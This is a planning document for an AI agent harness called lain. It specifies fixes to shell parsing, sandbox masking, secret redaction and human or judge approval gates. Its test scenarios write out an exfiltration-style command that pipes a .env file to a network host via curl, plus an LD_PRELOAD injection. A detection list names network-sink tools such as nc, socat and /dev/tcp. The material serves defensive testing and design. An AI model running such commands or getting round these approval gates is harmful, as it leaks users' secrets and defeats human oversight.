

# Round 29 fixes: one owner per decision

status: done
commit-mode: orchestrator-commits
language: ruby (T25 also touches Rust in `apps/lain-remote`)
panel: Ruby (Linus Torvalds, Jeremy Evans, Sandi Metz, Richard Schneeman, Aaron Patterson); the algebra seats (Edward Kmett, Philip Wadler, Conal Elliott) join for T1, T12, T17, T28; Rust (Raph Levien, Andrew Gallant, Ashley Williams) for T25

## Intent

QA round 29 (`planning/qa-findings-round29-2026-11-11.md`) and the sibling sweep that followed it (`planning/round29-sibling-bugs-research-2026-11.md`) found about 55 defects at MEDIUM or worse. Most of them come from 6 recurring shapes: a decision that several sites make on their own, and that they get wrong in different ways. This plan fixes them by giving each such decision 1 owner, built on the algebra lain already has (`Approval::Ladder`'s first-decisive fold, `Named`'s join, `Budget::Spent`'s monoid, `Epic::Signoff`'s fold). It then deletes the copies.

The user ruled (memory `qa-round-29-rulings.md`, 2026-11-11):
- the scope is MEDIUM and up only;
- no backwards compatibility is owed;
- simpler code is a goal in itself, so dead and redundant code goes.

Roadmap: `ROADMAP.md` item 75.

What lands, by stream:
- **P, parse and sandbox (T1 to T7):**
  - 1 parse per bash effect.
  - The parser reads `!`, `\`, safe assignments and quoted heredocs.
  - A command lain cannot read marks the lineage changed, so the next build grant asks.
  - A read-only git stage owns its config.
  - The mask listing fails closed.
  - Git reads are checked.
- **S, secrets (T8 to T15):**
  - A bash approval releases nothing.
  - The approval row says what a command's files hold and where it sends.
  - A human approval of a secret-bearing call runs contained, unless "approve with network" is chosen.
  - 1 scan input for bash output.
  - 1 transcript mask for consolidate and improve.
  - Paths are judged per segment.
  - Plan scope is released at quit.
  - 1 wording for "waiting on a human".
- **G, gates and epics (T16 to T25):**
  - A `deferred` verdict.
  - `GateView`, 1 read of gate state that land, queue, status, finish, the driver and the phone all use.
  - Edits re-gate what they change.
  - `/stop` reaches a launching issue.
  - Phone gate answers cannot strand an item.
- **T, tiers and compaction (T26 to T30):**
  - `Backend::Tier`, 1 builder for every secondary model call: live model, runner options and spend.
  - A read-starved cut is exempt from the Worth floor.
  - The idle tick prepares the cut the next ask uses.
- **C, cockpit and children (T31 to T39):**
  - A restart keeps the input pane.
  - Exact tmux targets.
  - `ChildArgv`, 1 builder for every lain child command line.
  - The herdr resume command works.
  - Typed text survives a park.
  - Settled and failed asks notify.
  - Export follows the resume chain.
  - notify-feed resolves past the gem bin dirs.
  - Skill slot files are validated.
- **D, drain and children (T40 to T42):**
  - The drain may commit in its own lease.
  - A drained chore is judged by what it committed.
  - A stopped researcher can be resumed.

## Grounding

2026-11-11, `c0ce028b` on `main`, 0 commits behind `origin/main`.

**How it was checked:**
- 5 read-only Explore agents (Sonnet), 1 per area, traced each item from its entry point to its construction site and listed the specs that pin today's behaviour. Their notes are condensed in `~/tmp/lain/claude-1000/-home-tara-dev-lain/037d5097-b43f-4656-bb1a-7d287b79fa2c/scratchpad/r29/grounding-results.md`.
- The coordinator re-read these itself: S4-1 (`tools/bash.rb:425-450`, `shell/named.rb:1185-1240`, `shell/executable/fresh.rb:110-175`, `confine/profiles.rb:300-350`), S6-1 (`cli/wiring/judge_source.rb`), S1-2 (`remote/agenda.rb:165-215`, `crates/lain-core/src/relay/agenda.rs:295-335`), S5-1 (`cli/epic.rb:610-635`, `epic/graph.rb:60-85,190-212`), S6-3 (`isolation/gc.rb:314-324,455-500`), S3-4 (`tool/bounds.rb:420-450`) and S3-2 (the `checksums` sites in `redact_secret_reads.rb`).
- Live gate records were read (counted, not printed) from `~/.local/state/lain/sessions/9d832bf6a4ad/`: 5 files and 40 `gate_decision` records, all in the old `approved:` shape.

**Where the docs and the code disagree, and which wins:**
- `ARCHITECTURE.md:1197` says a bash result is masked "with no release". Commit `c292473b` added a release. The doc wins (T8).
- `ARCHITECTURE.md:2323` says an approved stage never goes stale when `epic.md` changes. The user ruled that a structural digest decides staleness for the epic plan (T17). The doc changes.
- Findings whose mechanism moved:
  - The o29-2 finding cites `stdin_pump.rb:334`. For a cockpit, the loss is in `InputPane#stop_drawing` (`frontend/input_pane.rb:494-501`).
  - m29-4 is in `prompt/skill_slots.rb`, not `prompt/slots.rb`.
  - S1-3's `command/surface.rb:113` reads no gate state. The real raw reader is `journal/projection/waits.rb:48,85`.
- `RuleChain`, named in the findings, does not exist. Rules are `Approval::Rule` subclasses in the list `CLI::Wiring::BoardBuild#approving` returns (`cli/wiring/board_build.rb:196`).
- Algebra-and-flip T7 ("parse a bash command once per effect") is not done. `Middleware::ParsedCommand` carries `Named` only, and a bash call still parses 6 to 9 times. T1 finishes it.
- `Sensitivity::Regions.detect`'s entropy decision is Ruby (`sensitivity/regions.rb:436-462`, `sensitivity/entropy.rb`). Only the regex scan is Rust. The 2026-11-10 ruling to move scanning to Rust (`planning/hot-path-followups-2026-11-10.md` item 14) is not done. T13 fixes the Ruby oracle, and the Rust port carries it.

## Compatibility

| Surface | Verdict | Evidence |
|---|---|---|
| Ruby API (`Lain::*`) | free to break | `lain.gemspec` at `0.1.0`, `CHANGELOG.md` has only `[Unreleased]` and `0.1.0`, no git tag but a backup; consumers by grep across `~/dev`: only lain's own worktrees |
| Rust crates | free to break | every `Cargo.toml` says `publish = false` |
| Remote wire (`lain-wire`, relay, app) | free to break, and **left unchanged** by ruling 9 | the app is built from this repo; T25 changes only how an existing variant is filled |
| CLI flags and subcommands | free to break | user ruling 2026-11-11 "nothing is in production"; `gate-verdict-rewrite` is deleted by ruling 11 |
| Journal records (`gate_decision`, new `writes_unread`) | free to break, with 1 throwaway rewrite | memory `old-sessions-disposable.md`, `old-records-rewrite-not-refuse.md`; the 5 live files are converted by a throwaway script before T16 lands (ruling 11) |
| Config DSL (`.lain/config.rb`) | free to break | no change planned |
| `lain export --format jsonl` | must keep raw | user ruling 7 (jsonl stays raw by design) |

There was no must-keep trade to report. Ruling 11 settled the only stored-data question: 1 throwaway script, then the shipped rewrite command is deleted.

## Spike findings

| Question | Result | Evidence |
|---|---|---|
| Can the mask listing fall back to a hand walk when `git ls-files` fails, and which walker? | Yes. Reusing `MaskList::Beneath` (candidate A) needs only a fallback in `listing`: `super \|\| Dir.children(@root).reject { _1 == ".git" }.map(&:b)`. On a non-git tree it masked `.env`, `config/master.key`, the ignored `secret.env`, `secrets/` and the `.envrc` link target, and skipped `node_modules/x/.env` by the existing `PRUNED` rule. `FileWalk` (B) emits no directories, so it loses the `secrets` mask. Timing on about 5,000 files: A 0.565 s, B 0.598 s, against the 10 s budget | throwaway `spec/lain/confine/spike_r29_a_spec.rb` and `_b_spec.rb` in `tmp/worktrees/spike-r29`, run with `nice -n 10 ionice -c3 bundle exec rspec` |
| Does the idle prepare produce a cut the next ask applies? | With `keep_last` 2 or 20 and history beyond the keep window, yes: 1 `compaction_prepared`, then the next ask applies it (`compaction_applied 1`, 1 oracle ask, `sends_prepared?` true). Pinning with `session_pinned` changed nothing in 10 shapes, so the running-ask pin is not the blocker. The spike did not use fork k's shape (`--compact-bytes 3000 --compact-keep 1`, 5 short asks), where the idle head (2,298 bytes) excludes the last exchange, which the next prompt makes droppable (the ask measured 4,790 bytes). So the defect is the keep window measured from the last message, not from the next prompt | `spec/lain/compaction/spike_r29_idle_spec.rb`; fork k's table in `~/tmp/lain-qa-2026-11-11-k/records/fork-report.md` (k29-4) |

## Panel review

1 review (Ruby roster, with the algebra and Rust seats), verdict REQUEST-CHANGES, 1 BLOCKER and 17 SHOULD-FIX. Every item was applied:
- **BLOCKER:** T9's disclosure was a ladder rung whose only output was a String note, so T10 had nothing to read, and the network choice was dropped in `Pending#resolve`. Now the disclosure is 1 value carried on `context` by `Middleware::ParsedCommand`, `Pending` keeps `network`, and `Ruling#contained?` reads both. A note-adding rung is not the fold's unit, so the claim was withdrawn.
- **T10:**
  - A fixed `network` answer instead of a free note: a note is never consent, and epic gates refuse the word.
  - A box that cannot contain refuses a plain `y`.
  - A reader-arm scenario.
  - `Carried::Unruled` folded into `Confine::Request::UNRULED`.
- **T16:** `Deferred` moved from `Approval::Verdict` (the human-answer sum) to `Epic::GateDecision`. The old-shape refusal scenario was dropped, by ruling 11. The rewrite runs after the card lands.
- **T13:** narrowed to `<word>-<hex>` and named content-addressed layouts after a probe showed the first rule unmasks hex API keys in URLs. Raised to high, and the renames dropped.
- **T40:** abstains only on a hook the lease could have written, so a repository with pre-commit installed still drains.
- **Mechanical:**
  - T1's carrier is `context`, not `env`, and `LoopReading` keeps its parse.
  - T3 says which grant.
  - T6 and T7 lost 2 edges, and T7 lost 3 spawns that already fail closed.
  - T15 owns `remember`.
  - T17 and T23 name the landing callers.
  - T25 keys an issue-less gate by stage, so the app needs no answer change.
  - T26 to T28 keep `summarizer_model` as a reader and count tier spend once in the HUD.
  - The app's own cargo checks were added.

## Shared files

Only the main session edits these. Cards hand back 1-line diffs.

- `lib/lain/cli/wiring.rb`: construction wiring for T14 (Conductor `stops:`), T28 (`Budget::Shared` bound at `Backend#attach`), T33 (`ChildArgv` on `Command::Env`).
- `exe/lain`: T16 deletes the `gate-verdict-rewrite` subcommand (`exe/lain:629`).
- `ARCHITECTURE.md`, `docs/commands.md`: doc lines named on each card.
- `spec/support/slow_files.rb`: a new seam spec over the threshold.
- `.rubocop.yml`: only by a card's stop condition.

## Rejected options

- **Fix each finding at its site** (48 cards): the sweep showed site fixes miss siblings. g28-2 fixed lockfiles for 2 of 3 scanner paths, and S3-2 is the third.
- **A new `Sensitivity::Verdict` value for "opaque"**: `Verdict` classifies 1 path, and an opaque command has no paths. Opaque stays on `Named`, where it is already the top of the join (`shell/named.rb:1338`).
- **A new `Approval::Verdict` variant for "approve with network"**: it would widen the shared Rust wire for a choice the phone does not offer (ruling 9). An `Approve` carrying `network: true` stays inside Ruby.
- **Making the Tier own the secret oracle's transport**: `Oracle::SecretRead` builds its own provider and egress guard on purpose, and a spec pins that boundary. The Tier supplies only its runner options.
- **A Prism ratchet that forbids `Checkout#run(...).stdout`**: kept as a stop condition in T7, not built up front. A verb that raises is enough if every reading site moves to it.
- **The LOW findings** (j29-1, r29-3, S6-7, S6-8, S3-5 to S3-8 and the rest): out of scope by ruling 6. T26 builds the Tier so r29-3's spool frame costs 1 line later.
- **jsonl export masking**: ruled out (ruling 7).

## Open decisions

- **A committed plan-scope spike at quit.** T14 releases an uncommitted spike. A spike with commits is kept and its branch named, as `Spike#keep` does today. Whether a kept spike's base snapshot should be scanned for secrets is S3-6 (LOW, out of scope). No card depends on it.
- **The 5 live session files.** The throwaway rewrite (T16's Integration check 1) runs on the user's files only with the user's go-ahead at that moment.

## Dependency graph



## Tasks

### Stream P: parse and sandbox

### T2: End the stdout block with a newline before the stderr frame          [risk: low]

**Depends on:** none
**Files:** `lib/lain/tools/bash.rb`, `spec/lain/tools/bash_spec.rb`, `spec/lain/middleware/redact_secret_reads_spec.rb`
**Reuse:** `Tools::Bash.render_output` (`tools/bash.rb:198-200`)
**Shared-file wiring:** none
**Reachable from:** `Tools::Bash#ran` -> `render_output`, the only builder of the framed result

**Acceptance criteria**

```gherkin
Scenario: a token printed with no final newline is masked
  Given a bash command that prints a github-shaped token with no trailing newline to stdout and a line to stderr
  When the call runs through the production middleware stack
  Then the model's result holds a redacted slot where the token was
  And the stderr line is still shown

Scenario: the frame is unchanged when stdout already ends a line
  Given a bash command whose stdout ends with a newline
  When the call runs
  Then the result is the same bytes it was before this card
```
Spec file: `spec/lain/tools/bash_spec.rb`, `spec/lain/middleware/redact_secret_reads_spec.rb`

**Stop and report if:**
- `credential_patterns.rb`'s github lookahead `(?![\w-])` turns out not to be what misses: then the cause is elsewhere, and the finding's mechanism was wrong.

### T1: Parse a bash command once per effect          [risk: high]

**Depends on:** T2
**Files:** `lib/lain/middleware/parsed_command.rb`, `lib/lain/cli/tool_guard.rb`, `lib/lain/approval/escalation.rb`, `lib/lain/approval/composed_term.rb`, `lib/lain/approval/judge/facts.rb`, `lib/lain/tools/bash.rb`, `lib/lain/shell/named.rb`, `lib/lain/shell/verdict.rb`, `spec/lain/middleware/parsed_command_spec.rb`, `spec/lain/cli/tool_guard_spec.rb`, `spec/lain/tools/bash_spec.rb`, `spec/lain/approval/escalation_spec.rb`
**Reuse:** `Shell::Parse` (tree-sitter, `shell/parse.rb:196`), `Shell::Named.from(result, cwd:, home:)` (`lib/lain/shell/named.rb:135`), `Shell::Verdict.new(parse:)` (`lib/lain/shell/verdict.rb:168`), algebra-and-flip T7's card text
**Shared-file wiring:** none
**Reachable from:** `CLI::ToolGuard` mounts `Middleware::ParsedCommand` (`cli/tool_guard.rb:707`), which every bash effect passes before the gate

**Acceptance criteria**

```gherkin
Scenario: one parse serves every reader of a bash call
  Given a chat built through CLI::Wiring with the production middleware stack
  When the model calls bash with "cd lib && grep -rn foo . | head"
  Then Shell::Parse runs exactly once for that call
  And the gate, the triage verdict, the judge's facts, the confinement stages and the write journal all read the same parse

Scenario: a leased worker reads the carried parse
  Given a researcher child whose lease refuses an opaque read
  When it calls bash with a command lain cannot read
  Then the refusal is LEASED_OPAQUE, as before, from the carried parse
```
Spec file: `spec/lain/middleware/parsed_command_spec.rb`, `spec/lain/tools/bash_spec.rb`

**Interface**

```ruby
# Middleware::ParsedCommand carries the parse on the context; each reader derives its own view.
context.parsed_command          # => Shell::Parse::Result (today it carries Named)
Shell::Named.from(result, cwd:, home:)
Shell::Stages.from(result, cwd:)
Shell::Reading.of(result)       # already accepts a result (reading.rb:40)
Shell::Verdict#of(result)       # public; #call(command) parses then delegates
```

`LoopReading` (`shell/named/loop_reading.rb:69`) parses a synthesized loop body, not the call's command, so it keeps its own parse. Build the "exactly once" criterion on the existing parse counter in `spec/lain/cli/tool_guard_spec.rb:730-753`, extended to the real ladder.

**Stop and report if:**
- `Shell::Stages.for_input` (`tool_guard.rb:504`) needs a parse of a different string than the call's command: then it keeps its own parse, and the card says so.
- A memo inside `Named.of` looks simpler: algebra-and-flip T7 forbade it. Report it rather than add it.

### T3: The shell reader reads `!`, `\`, safe assignments and quoted heredocs          [risk: high]

**Depends on:** T1
**Files:** `lib/lain/shell/named.rb`, `lib/lain/shell/reading.rb`, `lib/lain/shell/stages.rb`, `lib/lain/shell/parse.rb`, `spec/lain/shell/named_spec.rb`, `spec/lain/shell/stages_spec.rb`, `spec/lain/shell/reading_spec.rb`
**Reuse:** `Named::Word` (`lib/lain/shell/named.rb:188`), `Walk::READABLE_KINDS` (`:1197`), `Executable::Resolver::Peel.env_assignments` (`shell/executable/resolver.rb:351`)
**Shared-file wiring:** none
**Reachable from:** `Middleware::ParsedCommand` (T1) -> `Named.from`, `Stages.from`

**Acceptance criteria**

```gherkin
Scenario: a bang and a backslash in double quotes are read
  Given the command sed -i "s/a!/b\./" notes.txt
  When Named reads it
  Then notes.txt is a written path and the command is not opaque

Scenario: a dollar-bang stays opaque
  Given the command echo "$!"
  When Named reads it
  Then the command is opaque

Scenario: a leading safe assignment reads as an env wrapper
  Given the command RUST_BACKTRACE=1 cargo test --locked
  When the stages are read and the call is approved by rule under the workspace sandbox
  Then cargo is resolved and the workspace exec grant names it in the sandbox record
  And no network build grant is given, because BuildGrant refuses a wrapped stage (profiles.rb:357), as today

Scenario: a dangerous assignment stays opaque
  Given the command LD_PRELOAD=x.so ls
  When Named reads it
  Then the command is opaque

Scenario: a quoted heredoc names its target
  Given the command cat > crates/a/build.rs <<'E' followed by a body and E
  When Named reads it
  Then crates/a/build.rs is a written path

Scenario: an unquoted heredoc stays opaque
  Given the same command with an unquoted delimiter
  When Named reads it
  Then the command is opaque
```
Spec file: `spec/lain/shell/named_spec.rb`, `spec/lain/shell/stages_spec.rb`

Also delete `Named.directories` (`named.rb:149`), which has no caller outside `spec/lain/shell/named_spec.rb:1204`. Move `Reading.text` onto `Word.read`: a `Reading` literal is a `Word` literal with no glob, tilde or fill.

**Stop and report if:**
- `spec/lain/shell/named_spec.rb:1165` (LD_PRELOAD opaque) cannot hold beside the env-wrapper reading: then the opaque list is wrong.
- tree-sitter's bash grammar does not expose whether a heredoc delimiter is quoted: then the quoted-heredoc scenario moves to Open decisions.

### T4: A command lain cannot read marks the lineage changed          [risk: high]

**Depends on:** T3
**Files:** `lib/lain/tools/bash.rb`, `lib/lain/shell/executable/fresh.rb`, `lib/lain/telemetry/writes_unread.rb` (new), `spec/lain/shell/executable/fresh_spec.rb`, `spec/lain/tools/bash_spec.rb`, `spec/lain/telemetry/round_trip_spec.rb`
**Reuse:** `Telemetry::FileWritten` (`telemetry/file_written.rb`), `Fresh#for_lineage`/`written_in`, `Named#opaque?`
**Shared-file wiring:** `ARCHITECTURE.md:1033`, the `Fresh` paragraph: name the new record
**Reachable from:** `CLI::Wiring::ToolsetBuild` builds `Fresh` and `BuildGrant` (`cli/wiring/toolset_build.rb:237`); `Tools::Bash#ran` -> `run_journalling_writes` (`tools/bash.rb:436`)

**Acceptance criteria**

```gherkin
Scenario: an unreadable write withdraws the next build grant
  Given a cargo workspace whose lineage holds no write
  And an approved bash call cargo build --locked would be granted network
  When an earlier call in the lineage ran a command lain cannot read
  Then the journal holds a writes_unread record for that call
  And the next cargo build --locked is not granted network

Scenario: the mark survives a resume
  Given a session whose journal holds a writes_unread record
  When the session is resumed and the lineage is folded from its files
  Then the build grant is still withdrawn

Scenario: a killed command is still marked
  Given an unreadable command that is killed by the bash timeout
  When the call ends
  Then the writes_unread record is in the journal

Scenario: a readable write keeps today's rule
  Given a lineage whose only write is a readable cat > notes.txt
  When cargo build --locked is approved
  Then the grant follows today's per-path rule
```
Spec file: `spec/lain/shell/executable/fresh_spec.rb`, `spec/lain/tools/bash_spec.rb`

**Interface**

```ruby
Telemetry::WritesUnread = Data.define(:tool_use_id, :cwd)
Fresh#any_under?(root) # true once the lineage holds a WritesUnread
```

**Stop and report if:**
- `Fresh#degraded?` turns out to be the cheaper carrier: it must not be used, because it makes every `fresh?(path)` true.
- `spec/lain/telemetry/round_trip_spec.rb` enumerates record kinds by a list this card cannot extend.

### T5: A read-only git stage owns its config and hooks          [risk: high]

**Depends on:** T1
**Files:** `lib/lain/approval/composed_term.rb`, `lib/lain/shell/executable/run_files.rb`, `spec/lain/approval/composed_term_spec.rb`, `spec/lain/shell/executable/run_files_spec.rb`
**Reuse:** `ComposedTerm#owners` (`lib/lain/approval/composed_term.rb:1818`) and the cargo precedent `admitted_cargo?`, `Repository.quiet?` (`:1749`), `hooked?` (`:588`)
**Shared-file wiring:** none
**Reachable from:** `CLI::Wiring::BoardBuild#approving` builds `ComposedTerm.new(sensitivity:, classes: true)` (`cli/wiring/board_build.rb:196`)

**Acceptance criteria**

```gherkin
Scenario: the git rule fires under the reader sandbox
  Given a session launched with --confine reader in a git project with the default .sample hooks
  When the model calls bash with git log --oneline -5
  Then the call is approved by rule and runs with no prompt

Scenario: a sample hook is not a run file
  Given a repository whose .git/hooks holds only .sample files
  When RunFiles lists the run files of git status
  Then no .sample file is listed

Scenario: a real hook still gates
  Given a repository with an executable .git/hooks/pre-commit
  When the model calls git commit
  Then the approval row names the hook and the call parks
```
Spec file: `spec/lain/approval/composed_term_spec.rb`, `spec/lain/shell/executable/run_files_spec.rb`

**Stop and report if:**
- `spec/lain/shell/executable/run_files_spec.rb:183` ("every hook that exists") is relied on by a reader other than ComposedTerm: grep for `RunFiles#git` callers first.

### T6: The mask listing fails closed          [risk: high]

**Depends on:** none
**Files:** `lib/lain/confine/mask_list.rb`, `lib/lain/sensitivity/history_literals.rb`, `lib/lain/file_walk.rb`, `spec/lain/confine/mask_list_spec.rb`, `spec/lain/sensitivity/history_literals_spec.rb`
**Reuse:** `MaskList::Beneath` (`lib/lain/confine/mask_list.rb:~260`), which the spike showed needs only a fallback in `listing`
**Shared-file wiring:** none
**Reachable from:** `CLI::Wiring::ToolsetBuild` builds `MaskList` (`cli/wiring/toolset_build.rb:425`) -> `Tree#refresh` -> `listing`

**Acceptance criteria**

```gherkin
Scenario: a project that is not a git repository is masked
  Given a project directory with no .git holding .env and config/master.key
  When a workspace-confined bash call runs cat .env
  Then the child cannot read .env

Scenario: a failed listing does not unmask
  Given a git project whose listing fails (git missing from PATH)
  When the masks are refreshed
  Then every path the policy gates is still masked

Scenario: one listing of the project
  Given HistoryLiterals and MaskList both need the project's files
  When either lists them
  Then both use the same lister
```
Spec file: `spec/lain/confine/mask_list_spec.rb`

`spec/lain/confine/mask_list_spec.rb:90` pins the fail-open and flips. The related-tree example at `:254` stays.

**Stop and report if:**
- The fallback walk takes over 10 s on a 5,000-file tree (the spike measured 0.57 s), or misses an ignored secret: then report: the alternative, refusing the workspace grant when the project listing fails, touches `confine/profiles.rb`, which T10 owns.

### T7: A git read whose status is not checked raises          [risk: medium]

**Depends on:** T14
**Files:** `lib/lain/isolation/checkout.rb`, `lib/lain/isolation/gc.rb`, `lib/lain/isolation/worktree/registry.rb`, `lib/lain/isolation/candidate_desk.rb`, `lib/lain/isolation/clone/registry.rb`, `lib/lain/isolation/spike.rb`, `lib/lain/isolation/merge_coordinator/landed_flags.rb`, `lib/lain/forge/local_finish.rb`, `lib/lain/review/source/local_branch.rb`, `spec/lain/isolation/checkout_spec.rb`, `spec/lain/isolation/gc_spec.rb`, `spec/lain/isolation/candidate_desk_spec.rb`, `spec/lain/forge/local_finish_spec.rb`
**Reuse:** `Checkout#run!(…, error:)` (`lib/lain/isolation/checkout.rb:74`), `Shell::Out.ok?`
**Shared-file wiring:** none
**Reachable from:** `Isolation::Checkout.of(root, shell_out_factory:)`, the one git runner every listed site builds; `lain worktrees gc` -> `Isolation::Gc`

**Acceptance criteria**

```gherkin
Scenario: gc keeps a branch when it cannot list worktrees
  Given a merged lain branch checked out in a linked worktree
  And git worktree list fails
  When lain worktrees gc runs
  Then the branch is kept and the record says the worktree listing failed

Scenario: finish refuses when git status fails
  Given an epic whose git status fails
  When lain epic finish runs
  Then it refuses naming the failed command, and merges nothing

Scenario: a failed diff is not an empty review
  Given a local branch review whose git diff fails
  When the review source is read
  Then it raises naming the failed command

Scenario: a missing ref and a failed read differ
  Given a ref that does not exist and a read that fails
  When Checkout#target reads each
  Then the first answers nil and the second raises
```
Spec file: `spec/lain/isolation/checkout_spec.rb`, `spec/lain/isolation/gc_spec.rb`, `spec/lain/forge/local_finish_spec.rb`

**Interface**

```ruby
Checkout#out(*args, error: Checkout::Failed) # => String stdout, or raises error naming the command
Checkout#run(*args)                           # => Shell::Out, status in hand; for best-effort cleanups only
```

Fold `Spike#run` (`spike.rb:155`) into `Checkout.of`. The 3 raw git spawns in `confine/profiles.rb:501`, `confine/profile.rb:825-830` and `approval/judgement.rb:191` already read their status and fail closed on purpose (`.git` sealed whole), so they stay. About 40 sites move from `run(...).stdout` to `out`. Best-effort cleanups (`update-ref -d`, `worktree prune`, `rebase --abort`) stay on `run`.

**Stop and report if:**
- More than about 50 sites need to change: then split the card by directory before going on.
- A site's caller depends on an empty string meaning "none": convert it to `nil` there, and name it in the report.

### Stream S: secrets

### T8: A bash approval releases nothing          [risk: high]

**Depends on:** T1
**Files:** `lib/lain/middleware/redact_secret_reads.rb`, `lib/lain/middleware/withhold_automatic_output.rb`, `lib/lain/approval/escalation.rb`, `spec/lain/middleware/redact_secret_reads_spec.rb`, `spec/lain/middleware/withhold_automatic_output_spec.rb`, `spec/lain/approval/escalation_spec.rb`
**Reuse:** `RedactSecretReads#named_files` (kept: it re-shows what `read_file` released), `Ledger#released`
**Shared-file wiring:** none (`ARCHITECTURE.md:1197` already says this)
**Reachable from:** `CLI::ToolGuard`'s middleware stack mounts `RedactSecretReads` for every bash result

**Acceptance criteria**

```gherkin
Scenario: a human-approved cat of a secret file shows masks
  Given a project file deploy.conf holding 2 secret regions
  When a human approves bash cat deploy.conf at ask
  Then the model's result holds 2 redacted slots and no secret bytes
  And the journal holds no read_released record for the call

Scenario: a value read_file released still shows in a later cat
  Given deploy.conf whose region a human released through read_file
  When a later approved cat deploy.conf runs
  Then that one region shows and the other stays masked

Scenario: the trailer names the release route
  Given any masked bash result
  When the model reads it
  Then the trailer names read_file and /release, and names no command spelling
```
Spec file: `spec/lain/middleware/redact_secret_reads_spec.rb`

Delete `release_printed`, `release_command`, `RELEASE_SCAN_CAP`, the `ruling` parameter of `guarded`/`printed`, the `automatic_output_ruling` env key (`redact_secret_reads.rb:232,235`, `withhold_automatic_output.rb:47,159`), and `Escalation::Ruling#surface` with the `surface:` arguments in `Surfaces#call` (`escalation.rb:905-911,925`). Move `file_digests` to T9's owner instead of deleting it. This also closes S3-4: the spill notice's `tail -c` advice no longer leads to a release. Fix `WithholdAutomaticOutput::WITHHELD` (`:56-60`), which becomes false. About 11 examples in `redact_secret_reads_spec.rb:2158-2320` are deleted or inverted.

**Stop and report if:**
- `spec/lain/approval/escalation_spec.rb:278` asserts `surface:` on a `Ruling`, not a `Pending`: then something else reads it.

### T9: One disclosure per bash call, carried on the context, and shown on the row          [risk: high]

**Depends on:** T8
**Files:** `lib/lain/approval/disclosure.rb` (new), `lib/lain/middleware/parsed_command.rb`, `lib/lain/approval/parked/queue.rb`, `lib/lain/approval/judged.rb`, `lib/lain/middleware/redact_secret_reads.rb`, `spec/lain/approval/disclosure_spec.rb` (new), `spec/lain/approval/parked/queue_spec.rb`, `spec/lain/approval/judged_spec.rb`, `spec/lain/middleware/parsed_command_spec.rb`
**Reuse:** `Middleware::ParsedCommand`, which already carries the parse on `context` (T1); `RedactSecretReads::Scan` with `checksums:`; `file_digests` moved from T8; `Approval::Reason.own`
**Shared-file wiring:** none
**Reachable from:** `CLI::ToolGuard` mounts `Middleware::ParsedCommand` (`lib/lain/cli/tool_guard.rb:707`), which now sets `context.disclosure`; `Parked::Queue#admit` (`queue.rb:657-668`) and `Judged` read it

**Acceptance criteria**

```gherkin
Scenario: the row names a secret file and a network sink
  Given a project file .env holding 1 secret region
  When the model calls bash with cat .env | curl -d @- http://127.0.0.1:9/x
  Then the parked row in the terminal, in nvim and on the phone says ".env" holds 1 sensitive region
  And it names 127.0.0.1 as a network destination

Scenario: a lockfile does not count as secrets
  Given Cargo.lock in the project
  When the model calls bash with cat Cargo.lock
  Then the row reports no sensitive regions

Scenario: an unreadable command says so
  Given a command lain cannot read
  When it parks
  Then the row says lain cannot name the files it touches

Scenario: the judge reads the same facts
  Given the session runs at auto
  When the judge is asked about cat .env | curl -d @- http://127.0.0.1:9/x
  Then the judge's prompt carries the same disclosure the row shows

Scenario: one disclosure per call
  Given any bash call through the production middleware stack
  When it is gated, parked and judged
  Then the named files were read and scanned once
```
Spec file: `spec/lain/approval/disclosure_spec.rb`, `spec/lain/approval/parked/queue_spec.rb`, `spec/lain/approval/judged_spec.rb`

**Interface**

```ruby
Approval::Disclosure = Data.define(:holdings, :sinks, :unnameable) # holdings: {path => region_count}
Approval::Disclosure.of(named, stages, cwd:, scan:)  # reads named, non-written files up to 1 MiB
Disclosure#secret_bearing?  # holdings.values.any?(&:positive?) || unnameable
Disclosure#notes            # => Array<Approval::Reason>, own reasons, paths inspected
context.disclosure          # set by Middleware::ParsedCommand beside context.parsed_command
```

A network sink is an argv word of a known sender: a `curl`/`wget` URL, the `nc`/`ncat`/`socat` host, an `ssh`/`scp`/`rsync`/`sftp` remote, a `git push`/`fetch` remote and `/dev/tcp/...`. The list is advisory: containment (T10) does not depend on it. Merge the duplicate parsers `Parked::Queue#relative_path?` (`queue.rb:386`), `Parked::Queue#named_files` (`:728`) and `RedactSecretReads#named_files`' re-parse onto `context.parsed_command`. The value is computed once in the middleware, not in a ladder rung: a rung that adds a note changes what the rungs below it see, so it is not the unit of the first-decisive fold.

**Stop and report if:**
- A `Pending` note does not reach the phone's `why:` (`remote/agenda.rb:126`): then the phone needs its own wiring; report it before adding it.
- `bin/hot-path-bench --check`'s bash row goes over its ceiling: the 1 MiB read must then move to park time only.

### T10: A human approval of a secret-bearing call runs contained, unless "approve with network" is chosen          [risk: high]

**Depends on:** T9, T11
